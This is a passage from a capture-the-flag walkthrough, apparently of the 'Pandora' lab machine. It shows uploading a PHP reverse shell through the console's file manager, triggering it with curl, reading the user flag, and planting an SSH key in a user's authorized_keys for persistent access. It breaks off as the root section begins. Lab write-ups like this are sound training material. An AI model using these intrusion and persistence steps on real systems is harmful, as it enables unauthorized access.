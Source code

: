 Now we'll just upload the file to the site using the `Admin Tools` > `File manager` menu. Here's a [demo video of someone doing this](https://www.youtube.com/watch?v=3msKWLid5dY). I chose to make a directory called `stbytrndo` and uploaded the `shell.php` file to that directory, but choose whatever directory name you want.

Now if we go to that page using our browser or the below command, we'll get a reverse shell in our console

```bash
curl http://localhost/pandora_console/images/stbytrndo/shell.php
```

Going to that console tab where we caught the reverse shell, if we run `whoami` we can see that we're now the `matt` user.

All we have to do is run
```bash
cat /home/matt/user.txt
```
and we'll get the user flag back.

### Improving Our Shell

Before we move on, let's get a better shell than this. The easiest way to do that would be to just add a key to Matt's `authorized_keys` file.

First, create an ssh key by running

```bash
ssh-keygen
```

on your local box. I called mine `key` and didn’t give it a passphrase. After this, run 

```bash
cat key.pub #or whatever you named your key file with ".pub" after it
```

and we'll get back our public key.

Now all we have to do is add it to the server

```bash
mkdir /home/matt/.ssh
echo "<YOUR PUBLIC KEY>" >> /home/matt/.ssh/authorized_keys
chmod 600 /home/matt/.ssh/authorized_keys
```

and we can log into the server as Matt!

```bash
ssh -i key matt@10.10.11.136
```

## Root
Earlier we saw that `/usr/bin/pandora_backup` file that looked interesting, so let's take a further look into it.

If we run
